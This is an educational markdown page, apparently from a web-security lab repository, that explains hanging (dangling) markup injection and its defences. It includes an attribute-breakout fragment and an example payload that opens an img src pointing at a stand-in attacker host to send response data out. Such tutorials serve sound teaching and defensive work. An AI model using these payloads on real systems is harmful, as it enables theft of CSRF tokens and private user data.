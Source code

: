 ## 🪝 Hanging Markup Injection

In this section, we explain how hanging markup injection occurs, how a typical exploit works, and how to prevent attacks using hanging markup.

### ❓ What is Hanging Markup Injection?

Hanging markup injection is a method of cross-domain data exfiltration in scenarios where a full-fledged cross-site scripting (XSS) attack is not possible.

### 🛡️ How to Prevent Hanging Markup Injection Attacks

You can prevent hanging markup injection attacks by applying the same general defenses used to prevent XSS, such as encoding output and validating input upon receipt.

Consider an application that insecurely injects attacker-controlled data into its responses:

```html
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

Assume the application does not filter or escape characters like `>` or `"`. An attacker could use the following syntax to break out of the attribute value's quotes and the surrounding tag, returning to the HTML context:

```html
">
```

In this situation, the attacker would naturally attempt to execute XSS. However, assume that standard XSS attacks are not possible due to input filters, Content Security Policy (CSP), or other barriers. It may still be possible to perform a hanging markup injection attack using a payload like the following:

```html
"><img src='//attacker-website.com?
```

This payload creates an `<img>` tag and starts an `src` attribute containing a URL pointing to the attacker's server. Note that the attacker's payload does not close the `src` attribute, leaving it "hanging." When the browser parses the response, it looks ahead until it encounters a quote to close the attribute. Everything up to that point is treated as part of the URL and sent to the attacker's server in the query string of the URL. Any non-alphanumeric characters, including newlines, are URL-encoded.

📌 The result of the attack is that the attacker can capture part of the application's response after the injection point, which may contain sensitive data. Depending on the application's functionality, this could include CSRF tokens, email messages, or financial data.

### 🔗 Attributes for Hanging Markup Injection

Any attribute that makes an external request can be used for hanging markup injection.

This next lab is difficult to solve because all external requests are blocked. However, there are certain tags that allow you to store data and retrieve it later from an external server. Solving this lab may require user interaction.

[![Open Lab](https://img.shields.io/badge/Open-Lab-blue)](01.%20%28Expert%29%20Reflected%20XSS%20attack,%20strict%20CSP,%20hanging%20markup.md)

You can also mitigate some hanging markup injection attacks by using a Content Security Policy (CSP). For example, you can prevent some (but not all) attacks by implementing a policy that disallows tags like `<img>` from loading external resources.

### 📝 Note

The Chrome browser has addressed hanging markup injection attacks by preventing `<img>` tags from defining URLs containing raw characters such as angle brackets and newlines. This blocks attacks because the data that would otherwise be exfiltrated typically contains these raw characters, causing the attack to fail.
